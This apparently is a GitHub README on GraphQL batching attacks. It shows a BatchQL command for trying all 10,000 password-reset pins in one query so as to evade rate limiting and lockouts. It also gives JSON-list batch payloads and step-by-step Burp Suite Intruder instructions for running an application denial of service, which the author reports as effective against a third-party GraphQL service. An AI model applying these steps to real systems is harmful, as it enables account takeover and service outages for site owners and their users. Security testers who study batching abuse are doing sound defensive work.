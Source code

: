 GraphQL is designed in a way that allows you to write clean code on the server, where every field on every type has a focused single-purpose function for resolving that value. However, without additional consideration, a naive GraphQL service could be very “chatty” or repeatedly load data from your databases.

This is commonly solved by a batching technique, where multiple requests for data from a backend are collected over a short period of time and then dispatched in a single request to an underlying database

# GraphQL-Batching-Attack

GraphQL batching attacks can be quite serious depending on the functionalities implemented. For example, imagine a password reset functionality which expects a 4 digit pin that was sent to your email. With this tool, you could attempt all 10k pin attempts in a single GraphQL query. This may bypass any rate limiting or account lockouts depending on the implementation details of the password reset flow.

Tool:
https://github.com/assetnote/batchql

Recommdated Command: (*cautions* may cause the hyper stress in backend)


python3 batch.py -e https://ENDPOINT -w wordlist -p localhost:8080 -s 5000 (*you can increase the size of payload and you can see, is it causing stress on application or not) 



JSON list based batching

When sending a GraphQL query, a single query may look like the following:

{"query": "query { Query { hacktheplanet } }"}
As seen in the query above, it consists of a single JSON dictionary containing a single query.

Many GraphQL implementations support sending batch queries by providing a JSON list of queries, like shown below:

[
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   },
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   }
]


In this case, a JSON list of queries is provided to the GraphQL server. If the GraphQL API supports this form of batching queries, it will respond with something like this:

[
   {
      "errors":[
         {
            "message":"Cannot query field \"Query\" on type \"Query\".",
            "locations":[
               {
                  "line":1,
                  "column":9
               }
            ]
         }
      ]
   },
   {
      "errors":[
         {
            "message":"Cannot query field \"Query\" on type \"Query\".",
            "locations":[
               {
                  "line":1,
                  "column":9
               }
            ]
         }
      ]
   }
]


Indicating that server-side batching was performed and both of the queries from the request were executed successfully.


TIME TO CONVERT JSON list based batching INTO APPLICATION DOS WITH BURPSUITE (*NOTE NOT TESTED IN BUGBOUNTY PROGRAM)

1. Capture the request JSON list based batching queries from the BatchQL tool
      [
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   },
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   }
]
2.Send the request to repeater and replace the above payload with JSON_list_Application_DOS.txt and Send the request three or four times and note response timing.

3. Send the request to Intruder select the whole request and take the null payload, payload options to continue indefinitely, in itruder options go to the attack results and click on Use denial-of-service mode (U can use more then two or more intruder attack tab for more traffic )

4. Start the attack, go to repeater send the request and observe the response and try to load the web page.

Tried on third-party hosted graphql, it was quite effective and SOMETIMES ATTACK WILL FAIL IF TARGET HAVE CLOUDLFLARE 









